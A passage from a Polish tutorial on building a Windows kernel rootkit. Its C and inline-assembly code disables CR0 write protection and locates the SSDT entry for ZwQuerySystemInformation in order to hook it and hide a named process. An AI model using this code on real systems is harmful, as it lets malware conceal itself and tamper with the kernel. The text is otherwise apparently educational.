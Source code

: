 Poniżej zaprezentowano funkcje służące do deaktywacji lub aktywacji bitu WP w rejestrze CR0. Bezpośredni dostęp do rejestrów jest możliwy jedynie z poziomu assembler'a. Warto zwrócić uwagę na fakt, iż zapis kodu assembler'owego *inline* nie jest wspierany w 64-bitowym kompilatorze MSVC.
```c
void EnableWP()
{
	__asm
	{
		mov eax, cr0
		or eax, 0x10000
		mov cr0, eax
	}
}

void DisableWP()
{
	__asm
	{
		mov eax, cr0
		and eax, not 0x10000
		mov cr0, eax
	}
}
```
Następnym krokiem będzie zadeklarowanie funkcji, którą chcemy hook'ować oraz ustawienie odpowiednich zmiennych globalnych. 

```c
// Nazwa ukrywanego procesu
const wchar_t* processToHide = L"calc.exe";

// Define the original prototype of the hooked function
NTSYSAPI NTSTATUS NTAPI ZwQuerySystemInformation(ULONG, PVOID, ULONG, PULONG);

typedef NTSTATUS(*pNtQuerySystemInformation)(ULONG, PVOID, ULONG, PULONG);

// Original address of address of function in SSDT
ULONG SSDTAddress;

// Original function handle
pNtQuerySystemInformation NtQuerySystemInformationOrigHandle = NULL;
```

Ostatnim etapem przygotowań jest definicja makra określającego numer pożądanej funkcji w tablicy SSDT. Wykorzystuje ono trik z książki "The Rootkit Arsenal". Wszystkie funkcje systemowe Zw...() zaczynają się od kodu ```mov eax, xxxh```, gdzie "xxx" jest numerem funkcji w tablicy SSDT. Rozkaz ```mov``` składa się w tej sytuacji z pierwszego bajtu opkodu oraz 32-bitowej liczby przenoszonej do rejestru EAX. Zatem odnosząc się do 2, 3, 4 i 5 bajtu tej instrukcji, można uzyskać 4-bajtową liczbę stanowiącą indeks naszej funkcji.

```c
#define GetServiceNumber(Function)(*(PULONG)((PUCHAR)Function + 1));
```
Poniższy kod zawiera resztę funkcji DriverEntry. W komentarzach zawarto szczegółowe opisy procesu.
```c
// Zdobądź indeks funkcji w tablicy SSDT
const ULONG RoutineIndex = GetServiceNumber(ZwQuerySystemInformation);
// Wyłącz zabezpieczenia WP w CR0
DisableWP();

// Oblicz adres adresu procedury w tablicy SSDT
// addr = KeServiceTableAddress + routine_index * 4 (bajty, długość adresu)
SSDTAddress = (ULONG)KeServiceDescriptorTable->ServiceTableBase + RoutineIndex * 4;
// Wyłuskaj bezwzględny adres podmienianej funkcji
const ULONG OrigNtQuerySystemInformation = *(PULONG)SSDTAddress;

```